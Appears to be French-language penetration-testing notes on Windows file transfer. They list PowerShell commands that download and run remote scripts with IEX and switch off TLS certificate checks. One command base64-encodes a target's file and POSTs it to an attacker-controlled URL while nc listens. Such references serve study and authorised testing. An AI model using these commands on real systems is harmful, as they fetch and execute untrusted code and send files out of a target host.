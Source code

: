 # File Transfert

----

## Windows File Transfer Methods

###### BASE64 : 
* Encoder en base 64 , puis copier et décoder sur la cible
* checker la validité avec le hash match

###### Powershell :

```powershell
# file downlod method
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
# file download method 2
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# download string method
# download string and execute it directly
 IEX (New-Object Net.WebClient).DownloadString('<fileUrlLink>')
# ou
 (New-Object Net.WebClient).DownloadString('<fileUrlLink>') | IEX


# invoke web-request
Invoke-WebRequest <FileUrlLink> -OutFile <OutputName>
# bypasser les erreur de parsing
Invoke-WebRequest <FileUrlLink> -UseBasicParsing | IEX

#bypasser le certificat auth ssl/tls
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

```
Powershell Uploads

```bash 
# install dependance
pip3 install uploadserver
# create le serveur
python3 -m uploadserver

# upload or run with IEX

#Upload
Invoke-FileUpload -Uri http://<AttaquantURL>:<8000 | the port >/upload -File <C:\Windows\System32\drivers\etc\hosts |file path>
#IEX
IEX(New-Object Net.WebClient).DownloadString('<FileURL>')

# upload with base64
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<C:\Windows\System32\drivers\etc\hosts | FilePath >' -Encoding Byte))
#action
Invoke-WebRequest -Uri http://<AttaquantURL>:<PORT>/ -Method POST -Body $b64
# chez l'attaquant : listenning
nc -lvnp <Port>

```
